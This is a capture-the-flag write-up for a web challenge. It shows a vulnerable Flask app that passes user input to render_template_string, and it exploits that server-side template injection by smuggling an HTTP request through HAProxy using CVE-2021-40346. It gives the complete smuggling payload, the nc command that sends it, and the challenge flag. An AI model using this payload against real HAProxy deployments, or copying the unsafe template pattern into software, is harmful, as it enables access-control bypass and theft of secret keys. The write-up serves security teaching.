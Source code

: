 # ## Repeated Lock

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
The students asked for help from Sr. Sergio from TI for deploying a patched version of the new 4841 proxy. This time they protected the server a little better.
```

## Solve
In this challenge a python file is provided and a web page.

```python
from flask import Flask, render_template, render_template_string, request
import os
import utils


app = Flask(__name__)
app.config['SECRET_KEY'] = 'CTFUA{REDACTED}'


@app.route('/', methods=['GET', 'POST'])
def home():
    return render_template('home.html')


@app.route('/admin', methods=['GET', 'POST'])
def admin():
    return 'Under Construction...'


@app.route('/users')
def users():
    username = request.args.get('user', '<User>')
    if utils.filter(username):
        return render_template_string('Hello ' + username + '!')
    else:
        return 'Hello ' + username  + '!'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)

```

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/repeated_lock/images/page.png?raw=true)

A careful analysis of the python code, it's possible to see that there is [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) vulnerability in the **users** method, but if we try to access the **users** path we receive a **403 Forbidden**. There is a Server header leaking information about the app infrastructure, and in the challenge description there is a reference to 4841 proxy. This kinda of infra points to a smuggle vulnerability, but let's investigate more.

4841 is the hex value for **HA**, so the proxy used is [HA proxy](http://www.haproxy.org/). Doing some google search about vulnerabilities that may be useful in this case, a smuggling vulnerability appears https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/.

Now we just need to create or payload to smuggle an HTTP request in order to bypass the ACL put in place. Since we want to access the flask SECRET_KEY, lets try the simplest payload `{{config}}`, maybe the filter is wrongly implemented or malfunctioning.

```bash
POST /admin HTTP/1.1
Host: ctf-metared-2021.ua.pt:2011
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 101

GET /users?user=%7B%7Bconfig%7D%7D HTTP/1.1
h:GET /admin HTTP/1.1
Host: ctf-metared-2021.ua.pt:2011
```

Runing the command `cat poc | nc ctf-metared-2021.ua.pt 2011` and that's it. 
Although there is a filter put in place, always try the simplest stuff, because devs make mistakes all the time.

## Flag
CTFUA{Smuggl3_4nD_SST1_3301}
